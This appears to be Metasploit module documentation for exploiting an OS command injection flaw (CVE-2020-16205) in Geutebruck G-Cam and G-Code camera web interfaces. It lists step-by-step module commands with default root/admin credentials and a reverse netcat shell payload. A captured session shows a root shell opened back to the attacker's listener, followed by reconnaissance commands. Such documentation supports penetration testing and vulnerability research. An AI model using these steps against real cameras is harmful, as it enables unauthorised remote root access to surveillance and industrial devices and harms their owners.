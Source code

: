 ## Vulnerable Application

[Geutebruck](https://www.geutebrueck.com) Encoder and E2 Series Camera models:
G-Code: 
 EEC-2xxx
G-Cam: 
 EBC-21xx
 EFD-22xx
 ETHC-22xx
 EWPC-22xx

### Description

This exploit a simple OS command injection (CVE-2020-16205) in the /uapi-cgi/admin/testaction.cgi page of the web interface of the Geutebruck G-Cam and G-Code products.
Here is the advisory: https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03
Tested it with the 1.12.14.5 firmware only.

## Verification Steps

List the steps needed to make sure this thing works

  1. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  2. Do: `set httpusername root`
  3. Do: `set httppassword admin`
  4. Do: `set lhost 192.168.14.1`
  5. Do: `set rhosts 192.168.14.58`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check`
  8. Do: `exploit`

## Options

 ### HTTPUSERNAME

 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD

The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios

```
msf5 > use exploit/linux/http/geutebruck_testaction_exec
msf5 exploit(linux/http/geutebruck_testaction_exec) >
msf5 exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf5 exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf5 exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf5 exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```

